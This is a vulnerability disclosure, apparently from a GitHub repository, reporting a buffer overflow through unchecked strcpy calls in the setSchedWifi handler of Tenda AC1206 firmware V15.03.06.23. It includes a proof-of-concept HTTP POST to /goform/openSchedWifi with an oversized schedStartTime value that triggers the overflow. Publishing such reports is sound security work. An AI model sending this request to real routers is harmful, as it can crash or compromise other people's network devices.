



# Information


**Vendor of the products:**   Shenzhen Tenda Technology Co.,Ltd.

**Vendor's website:**https://www.tenda.com.cn/

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** AC1206

**Affected firmware version:** V15.03.06.23

**Firmware download address:** [AC1206 升级软件_腾达(Tenda)官方网站](https://tenda.com.cn/material/show/102766)

# Overview

Tenda AC1206 V15.03.06.23 firmware has a buffer overflow vulnerability in the setSchedWifi function, function strcpy(wlan_switch->begin_time, sched_start_time); and strcpy(wlan_switch->end_time, sched_end_time); The contents of the time string are copied to the target region without bounds checking, causing a buffer overflow and overwriting the memory area behind the array, which may cause a crash or even remote code execution, triggering this security vulnerability.

# Vulnerability details

The handler function `setSchedWifi` is registered in the `common_register` function.



There is a buffer overflow here



# POC

```
POST /goform/openSchedWifi HTTP/1.1
Host: 192.168.102.145
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Referer: http://192.168.102.145/main.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: password=trzmji
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 945

schedWifiEnable=0&schedStartTime=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

